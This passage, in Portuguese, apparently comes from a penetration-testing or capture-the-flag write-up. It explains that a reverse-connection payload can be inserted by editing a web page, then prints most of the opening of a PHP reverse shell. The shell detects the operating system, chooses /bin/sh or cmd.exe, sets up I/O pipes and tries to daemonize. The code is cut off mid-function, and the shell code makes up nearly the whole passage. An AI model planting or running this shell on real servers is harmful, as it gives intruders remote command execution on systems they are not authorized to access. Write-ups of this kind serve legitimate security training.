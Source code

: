 Ao editar a página, podemos inserir um payload de conexão reversa, no meu caso utilizarei o seguinte:

```
<?php
// Copyright (c) 2020 Ivan Šincek
// v2.4
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        if (stripos(PHP_OS, 'LINUX') !== false) { // same for macOS
            $this->os    = 'LINUX';
            $this->shell = '/bin/sh';
        } else if (stripos(PHP_OS, 'WIN32') !== false || stripos(PHP_OS, 'WINNT') !== false || stripos(PHP_OS, 'WINDOWS') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS_ERROR: Underlying operating system is not supported, script will now exit...\n";
        }
        return $detected;
    }
    private function daemonize() {
        $exit = false;
        if (!function_exists('pcntl_fork')) {
            echo "DAEMONIZE: pcntl_fork() does not exists, moving on...\n";
        } else if (($pid = @pcntl_fork()) < 0) {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\n";
        } else if ($pid > 0) {
            $exit = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\n";
        } else if (posix_setsid() < 0) {
            // once daemonized you will actually no longer see the script's dump
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\n";
        } else {
            echo "DAEMONIZE: Completed successfully!\n";
        }
        return $exit;
    }
    private function settings() {
        @error_reporting(0);
```